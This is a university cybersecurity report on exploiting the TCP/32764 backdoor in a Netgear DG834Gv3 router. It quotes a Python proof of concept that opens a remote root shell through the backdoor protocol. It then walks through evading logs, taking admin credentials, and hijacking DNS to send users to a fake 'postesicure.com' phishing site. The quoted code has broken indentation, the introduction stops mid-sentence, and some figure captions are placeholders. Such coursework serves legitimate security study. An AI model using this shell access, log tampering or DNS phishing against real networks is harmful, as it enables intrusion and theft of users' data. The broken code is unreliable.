


# UniTS Cybersecurity (436MI) Report: Exploiting TCP/32764 Vulnerability & Reverse Engineering an Old Netgear Wireless Router

**author**	 Nicolò Ermanno Millo

## Introduction

With this report, I will demonstrate as an hidden backdoor, could potentially 


## Threat Model

To align the exercise to real scenario, throughout the entire document the following threat model is considered.

Given an operating Netgear DG834Gv3 device, the attacker is assumed to have the capability to connect to the same Local Area Network (LAN) as managed by the device.


## Reconnaissance

Generally, even before being connected to an access point, it is possible visually inspect the physical device and so recognise its model. If not, it is still possible gather the same information with **Nmap**. 

&nbsp;

  
_Figure 1: Nmap command [^5]_

&nbsp;

However, this approach is not encouraged, because potentially noisy in terms of network traffic and thus more detactable. In fact, Nmap, to complete the OS detection, sends to the device more then 1000 TCP packets. A lot considering that information gathered are also not complete. OS and manufacturer are grasped, but the model still unknown. Actually, it is the most important info.

[^5]: https://nmap.org/book/osdetect-usage.html#osdetect-ex-scanme1

Another way to reach the willing information is observe and interract with the services made available by the device. Nmap detected a http service on port 80. Probably it is an admin web panel.

&nbsp;

  
_Figure 2: Unauthorized access web page of http service._

&nbsp;

Within the HTML of the page there is a meta tag "description" which disclose what it is searched. The device is a wireless router (+ switch + modem) of Netgear DG384* series. Precise model remains unknown, however it is not necessary.

This approach seems less detactable, network traffic is less and more conventional. In any case it is still up that after a failed authentication to admin panel, a notification to administrator is raised. At the current step of the attack, it is not possible satisfy the doubt.


## Backdoor unveiling

When it was understood that we are connected to Netgear DG834G*, it could be planned to exploit an hidden backdoor.

This device, as many other systems based on Sercomm modem, exposes a backdoor which can be exploited to gain administrative rights and manipulate local network resources without admin credentials [^2] 
Interestingly, it is not a mistake by its self, but instead an arbitrary _hidden functionality_ (CWE-912)[^1] . Probably part of a Sercomm updating tool.

These claims is supported by the fact that after the vulnerability disclosure, the following firmware patches did not close the backdoor, but instead merely hide it[^5]. Even today it can be again activated sending a proper packet [^3].

[^1]: “NETGEAR ROUTER DG/DGN/DM/JNR/WPNT PORT TCP/32764 BACKDOOR”, VulDB, https://vuldb.com/?id.11715 (accessed Apr. 21, 2024). 
[^3]: J. Ullrich , “Port 32764 router backdoor is back (or was it ever gone?) ,” SANS Technology Institute - Internet Storm Center, https://isc.sans.edu/diary/Port+32764+Router+Backdoor+is+Back+or+was+it+ever+gone/18009 (accessed Apr. 21, 2024). 
[^5]: E. Vanderbeken, "How Sercomm saved my Easter! Another backdoor in my router: when Christmas is NOT enough!", Synactiv, https://www.synacktiv.com/ressources/TCP32764_backdoor_again.pdf (accessed Apr. 21, 2024). 

None comments on these facts was released by Sercomm and Netgear[^2].

[^2]: S. Gallagher, “Easter egg: DSL router patch merely hides backdoor instead of closing it”, Ars Technica, https://arstechnica.com/information-technology/2014/04/easter-egg-dsl-router-patch-merely-hides-backdoor-instead-of-closing-it/ (accessed Apr. 21, 2024).

### Exploit

Communication with the backdoor was defined a TCP-based undocumented protocol. Eloi Vanderbeken at Synactiv successfully reverse-engineered it via IDA Pro[^6]. Subsequently a python Proof-of-Concept and a Metasploit module were developed.

[^6]: E. Vanderbeken, "TCP/32764 backdoor Or how linksys saved christmas!", Github, https://github.com/elvanderb/TCP-32764/blob/master/backdoor_description_for_those_who_don-t_like_pptx.pdf (accessed Apr. 21, 2024). 


Between them there are significant differences. 

PoC was developed specifically for Linksys WAG200G wireless router, in any case it works effectivelly even for Netgear DG834Gv3, but there are no assureance with any other device. Secondly, the script can be used to access directly many different Sercomm protocol methods. One of them is a non-reversed root-associated remote shell.

Instead, considering Metasploit module, it is capable to operate with a wide range of routers and carries many different payload, comprising also Linux reverse shell. Remarkable difference is also the fact that none of them open a root shell. The account associated is instead _nobody_. This class of account is generally used as low privilege debug account, in order to avoid severe compromised of remote systems[^4]. Anyway it seems have read access rights almost everywhere.

[^4]:  O. Kirch, Why NFS sucks”, Suse/Novell inc., Proceedings of Ottawa Linux Symposium 2006, https://www.kernel.org/doc/ols/2006/ols2006v2-pages-59-72.pdf (accessed Apr. 21, 2024).

Although the differences, both are based on the same protocol and TCP packets exchange is equiparable.

&nbsp;

  
_Figure 3: Wireshark capture of remote shell init with python PoC_

&nbsp;

To better understand why of this payload and generally protocol functioning, PoC and documentation is useful. The protocol itself is nothing complicated: its payload pass over the net in plaintext, no authentication or any complications, barely an harcoded header dictated by the router is required. Precisely it is defined by the endianess of the router.

&nbsp;

```python

def send_message(s, endianness, message, payload=''):
    """
    Send a message via open TCP connection to TCP/32764 vulnerable device

    Parameters:
    s         (socket) : Description of arg1
    endianess (char)   :
    message   (int)    : Index of backdoor functionality
    payload   (string) : Textual parameters to  chosen functionality 

    Returns:
    ret_val   (string) : Returning value
    ret_str   (string) : Returning string
    """

    header = struct.pack(endianness + 'III', 0x53634D4D, message, len(payload)+1)
    s.send(header+payload+"\x00")
    r = s.recv(0xC)

    while len(r) < 0xC:
	tmp = s.recv(0xC - len(r))
	assert len(tmp) != 0
	r += tmp

	sig, ret_val, ret_len = struct.unpack(endianness + 'III', r)
	assert(sig == 0x53634D4D)

	if ret_val != 0:
		return ret_val, "ERROR"

	ret_str = ""
	while len(ret_str) < ret_len:
		tmp = s.recv(ret_len - len(ret_str))
		assert len(tmp) != 0
		ret_str += tmp

return ret_val, ret_str

# ...

# ... if/elif discriminates PoC args

elif args.shell : # Poc arg : --shell
    print(send_message(s, endianness, 7, 'echo "welcome, here is a root shell, have fun"')[1])
    while 1 :
        print(send_message(s, endianness, 7, sys.stdin.readline().strip('\n'))[1])

#...
```
&nbsp;

Code released with Beerware licence. Unique modifications conecerns the added comments [^7].
[^7]: https://github.com/elvanderb/TCP-32764/blob/master/LICENSE


## Firmware exploration

Once a shell was opened, it is time to examinate the functionalities and configurations of the system.

Before any action and virtually as fast as possible, it is critical to verify the logs policy of the device. Potentially, if it be well configured, the bare access to backdoor and the former reconnaissance actions generate logs, then they was sent to an administrator.

&nbsp;

  
_Figure 4: The Markdown Mark_

&nbsp;

Fortunately, none of the ations are registered. Furthermore, the log configuration file shows that the standard strictest log policy is enable. In addition it is remarkably important to notice that succesfull accesses to admin web panel are keep in logs.
There is a good chance to work undisturbated, but in any case it is possible to modify log policy temporarly

After logs it is critical to understand which user is associated to the shell, which are its access rights and how the firmware are composed and so gather, if any, sensitive information. This assessement let the attacker grasp the magnitude of its privilege within the system and so lead to devise a feasible attack.

&nbsp;

  
_Figure 5: Busybox list of all its programs._

&nbsp;

Not surprisingly, the firmware is considerably compact in terms of memory footprint. This very aspect reflects into practical terms on how many programs are installed on it. 
Majority of programs are made available by Busybox software suite. Thus, the firmware had to be classified as embedded Linux.

Unfortunately, the programs available are not many and also not so updated. In addition, new ones are hardly to install. This aspect is crucial, because dictates in which manner the system can be compromised.

&nbsp;

  
_Figure 6: The Markdown Mark_

&nbsp;

Admin credential to web panel is achieved. Conceptually, this does not give us any more privilege than being root in the shell. Anyway works on HTTP is potentially less detactable, because less anomalous.
As seing before admin authentication on web panel are keep in logs, so first of all syslog.conf should be modified.

Summing up all the information gathered, in the next section I will propose a set of feasible configuration modification in order to compromise also other devices attached to the router.

## Modifying system configuration

Known the few functionalities of the device, an easy feasible modification is changing DNS configuration. So route DNS requests to an attacker-controlled DNS server. This can be configured to response to certain DNS request with IP of malicious web servers and so MITM scenario could be achieved.

&nbsp;

  
_Figure 7: DNS configuration page of admin web panel._

&nbsp;

Thanks to support of compromised router, now it is possible to set up a malicious DNS server with bind9 service. Finally a malicious web site on domain postesicure.com has been created.
Objective is recreate a critical web application, in order to intercept sensible information.


&nbsp;

  
_Figure 8: Malicious webpage loaded next to DNS traffic to malicious DNS server._

Last figure wants prove full operation of attack, but it is far from the most clever way to carry on  the attack. For instance employing a proxy instead of a local website is way more effective.

Furthermore an entire DNS server was within

A slightly different attack is redirect network traffic devising a proper route tables. Respect to former approach iptables-controlled routes are hardly detectable with only admin web panel. By this I mean this very configuration is not fetched by the panel.
Even though feasible, it should be keep in mind that _iptables_ is in a considerably old version, so many and more advanced functionalities are simply not available.

## Reverse engineering 

To reach more advanced offensive techniques, a straight forward way is reconstructing the very firmware of the router, adding functionalities. 
This is made possible easily by an interface inside the web panel. It does not feach the upgrade online, but instead it is loaded by a form backed by a cgi interface file.

Even though ultimately disruptive, detection is way more probable.  Thus good practise is to minor changes. But in any case reboot of the device is inevitable.
In addition, modifying a genuine firmware by bit is highly risky even employing specialized tools ( binwalk, firmware-modkit). If the procedure fails, in the best case the update is rejected, for instance because of image hash; in the worst the device will not work anymore and physical action for recovery are required.

## Conclusions

This attack demonstrated to be severe and easy to lead, but it is also mitigation. It is possible to mitigate the weakness by firewalling port 32764 on web panel and backdoor is not reachable anymore[^1].
